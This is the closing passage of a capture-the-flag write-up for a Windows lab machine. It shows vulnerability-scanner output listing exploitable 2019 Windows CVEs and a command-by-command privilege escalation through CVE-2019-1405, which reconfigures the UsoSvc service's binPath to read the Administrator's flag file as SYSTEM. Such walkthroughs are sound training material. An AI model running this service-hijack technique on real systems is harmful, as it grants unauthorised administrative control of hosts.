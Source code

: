           [!] CVE-2019-1315 : VULNERABLE
            [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

          [!] CVE-2019-1385 : VULNERABLE
            [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

          [!] CVE-2019-1388 : VULNERABLE
            [>] https://github.com/jas502n/CVE-2019-1388

          [!] CVE-2019-1405 : VULNERABLE
            [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/

As the [article](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/)
precise we can run commands as `SYSTEM` on the box so we stop the service,
configure it to copy the root flag in `C:\a.txt` and start the service again.

    :::text
    C:\windows\system32\inetsrv>sc.exe stop UsoSvc
    sc.exe stop UsoSvc
    [SC] ControlService FAILED 1062:

    The service has not been started.


    C:\windows\system32\inetsrv>sc config UsoSvc binPath="cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\a.txt"
    sc config UsoSvc binPath="cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\a.txt"
    [SC] ChangeServiceConfig SUCCESS

    C:\windows\system32\inetsrv>sc.exe start UsoSvc
    sc.exe start UsoSvc
    [SC] StartService FAILED 1053:

    The service did not respond to the start or control request in a timely fashion.

We can now get the root flag.

    :::text
    C:\windows\system32\inetsrv>type C:\a.txt
    type C:\a.txt
    66f9b552d94ea7c55919dc1bfbaff7e1

# Wrapping up

This box was supposed to be easy. Clearly the root part took me way too long. My
metasploit was outdated and doesn't had the post module for TeamViewer. And
after getting the TeamViewer credentials I really tried to connect using the
solution.

Nevertheless the box was really interesting.

